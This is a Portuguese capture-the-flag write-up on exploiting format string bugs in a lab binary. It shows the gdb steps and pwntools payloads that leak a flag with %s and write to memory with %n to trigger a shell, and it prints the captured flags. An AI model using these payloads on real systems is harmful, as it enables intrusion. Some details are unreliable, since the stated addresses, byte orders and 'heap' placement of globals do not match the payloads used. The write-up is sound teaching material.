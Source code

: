 # CTF 3 - Semana 7

## Primeira parte

Inicialmente exploramos os ficheiros disponibilizados na plataforma CTF que são os mesmos que estão a ser executados no servidor na porta 4004. 

Com o comando **checksec** verificamos que `program` (main.c compilado) não tem o binário randomizado mas existem proteções do endereço de retorno usando canários. 

```bash
$ checksec --file=program
```

Depois avaliamos o funcionamento do código `main.c`. O input é guardado num buffer de 32 bytes através da função scanf e depois impresso por **printf** para sem argumentos adicionais. Assim, é possível usar "format string attack" para usurpar o seu funcionamento, já que não há randomização dos endereços.

Quando a função `load_flag` é invocada lê a flag contida no diretório para outro buffer que é uma variável global e, portanto, está alocado na Heap. Ao descobrir o endereço da função é possível retornar o valor da string do buffer.

Para descobrir o endereço da função, usamos o debugger gdb:

```bash
$ gdb program
$ p load_flag # 
```

O resultado foi o endereço de retorno "0x08049256", que é "\x60\xC0\x04\x08" em formato de string.

Usando o programa em python disponibilizado, injetamos o input que contém o exploit:

```python
p.recvuntil(b"got:")
p.sendline(b"\x60\xC0\x04\x08%s")
p.interactive()
```

![CTF 3 A](../Images/ctf3task1.png)

Ao executar conseguimos ter acesso ao conteúdo do ficheiro `flag.txt` e à flag do desafio, `flag{07147311b8387a60fea61e241035bf04}`.

## Segunda parte

Após avaliar o novo `program` que continua sem randomização de endereços, avaliamos o funcionamento do código `main.c`. Desta vez uma bash é lançada se o valor de `key` for 0xBEEF, ou seja, 48879 em decimal. Esta backdoor é suficiente para controlar o servidor e assim consultar o conteúdo do ficheiro **flag.txt**.

Para manipular o valor de key, que é uma variável global e por isso está alocada na Heap, recorremos à format string attack do input através da opção '%n'. Inicialmente precisamos do valor do endereço da variável key, e para isso recorremos ao gdb:

```bash
$ gdb program
$ p &key
```

O resultado foi o endereço "0x0804c034" que é "\x08\x04\xC0\x34" em hexadecimal. Para escrever 48879 neste endereço modificamos ligeiramente a string dada como input: após o endereço pretendido (4 bytes) é necessário escrever exatamente 48879 - 4 = 48875 bytes antes de '%n'. Como o buffer de entrada só tem no máximo 32 bytes disponíveis, recorremos à expressão compacta de leitura do printf `%.Nx`, com N = 48875.

```python
p.recvuntil(b"here...")
p.sendline(b"\x34\xC0\x04\x08%.48875x%n")
p.interactive()
```

![CTF 3 B](../Images/ctf3task2.png)

Ao executar conseguimos ter acesso ao conteúdo do ficheiro `flag.txt` e à flag do desafio, `flag{67900caf37372586bef79f7dc99581fd}`.
